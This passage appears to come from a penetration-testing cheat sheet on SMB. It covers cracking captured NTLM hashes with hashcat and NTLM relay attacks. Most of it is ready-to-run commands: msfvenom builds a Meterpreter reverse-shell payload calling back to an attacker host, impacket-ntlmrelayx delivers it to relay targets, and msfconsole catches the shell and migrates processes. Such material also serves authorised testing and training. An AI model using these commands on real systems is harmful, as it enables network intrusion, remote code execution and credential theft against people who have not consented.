 Once a hash is obtained it can be cracked or relayed.

{% tabs %}
{% tab title="Crack" %}
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="Relay" %}
See below:[#ntlm-relay](smb-139-445.md#ntlm-relay "mention")
{% endtab %}
{% endtabs %}

### NTLM Relay

{% tabs %}
{% tab title="Meterpreter" %}
Relay for gaining RCE with a Meterpreter listener:

{% code overflow="wrap" %}
```bash
# Enumerate the target hosts
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt

# Create a reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > shell.exe

# Start the SMB server
sudo impacket-ntlmrelayx -tf relay.txt -e ./shell.exe

# Start the listener
$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <attacker-ip>; set
LPORT 4444; exploit -j"

# Migrate
meterpreter > ps
meterpreter > migrate <PID>
```
{% endcode %}
{% endtab %}

{% tab title="MSF-Based" %}
{% code overflow="wrap" %}
```bash
# Enumerate the target hosts
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt

# Use the MSF module to relay
$ sudo msfconsole -q -x "use exploit/windows/smb/smb_relay; set RELAY_TARGETS 172.16.10.0/14; set SRVHOST <attacker-ip>; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <attacker-ip>; exploit -j"
```
{% endcode %}
{% endtab %}
